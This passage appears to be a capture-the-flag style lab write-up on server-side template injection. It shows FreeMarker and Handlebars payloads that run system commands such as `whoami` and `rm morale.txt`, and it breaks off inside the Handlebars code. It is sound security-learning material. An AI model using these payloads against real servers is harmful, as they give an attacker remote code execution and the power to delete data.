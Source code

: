 After clicking there I see the syntax of the template engine:

![](../../../images/Pasted image 20250126170856.png)

I just changed one value to something that don't exist there, such as `${halil}` and I got a list of errors.

But the error is telling me the template:

![](../../../images/Pasted image 20250126171042.png)

Now, I know that the template engine is `freemaker` so now it will be much easier to find the correct syntax and do the system commands.

By adding this payload `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}` I was able to read the current user that I am executing commands from, which is `carlos`.

![](../../../images/Pasted image 20250126172204.png)

with `ls` I see that there is `morale.txt` there, so I modify the command to `<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p><#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}`

And the file is deleted and the lab is solved.

-------

### Lab.4 Server-Side Template Injection in an Unknown Language with a documented Exploit

**Description**

The goal of the lab is to identify the template engine and find a documented exploit online, then execute code and delete the `morale.txt` file from Carlos's home directory.

**Solution**

When I visit the page, and click on the first article to see the details, I see there a message saying `Unfortunately this product is out of stock`. So, let's try to see if this message is vulnerable.

I sent the request for the message: `GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2` to Intruder and add there a list of test payloads, to see the responses.

After I execute a Sniper Attack, I see the responses, and some of them like `{{7*7}}` have produced errors, and when I see the response, it tells that it uses `handlebars`.

So, I have identified the template engine.

![](../../../images/Pasted image 20250126175817.png)

Now, I will search for some existing `handlebars` payloads. I found one of them on `Hacktricks`:

```JS
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
```